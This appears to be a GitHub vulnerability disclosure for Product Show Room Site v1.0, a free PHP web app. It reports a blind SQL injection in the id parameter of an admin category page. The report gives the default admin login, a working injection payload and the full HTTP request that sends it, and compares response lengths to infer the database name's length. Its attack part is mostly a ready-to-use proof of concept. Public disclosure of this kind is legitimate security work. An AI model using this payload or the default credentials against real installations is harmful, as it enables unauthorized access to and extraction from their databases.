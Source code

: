 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/categories/view_category.php?id=

Vulnerability location: /psrs/admin/categories/view_category.php?id=, id

Current database name: psrs_db ,length is 7

[+] Payload: /psrs/admin/categories/view_category.php?id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /psrs/admin/categories/view_category.php?id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

When length (database ()) = 6, Content-Length: 780
![image](https://user-images.githubusercontent.com/54017627/171829131-88845078-4173-4b1f-9015-c7166a4482f9.png)

![image](https://user-images.githubusercontent.com/54017627/171829197-2f58b772-5f19-45cc-9d8c-b9dd3c03d2de.png)

When length (database ()) = 7, Content-Length: 552
![image](https://user-images.githubusercontent.com/54017627/171829092-bbd260b8-c7e2-446b-9e34-f7d0407b1abb.png)

![image](https://user-images.githubusercontent.com/54017627/171829155-59c0b012-8187-4141-b8a3-32aa2ba83dfa.png)
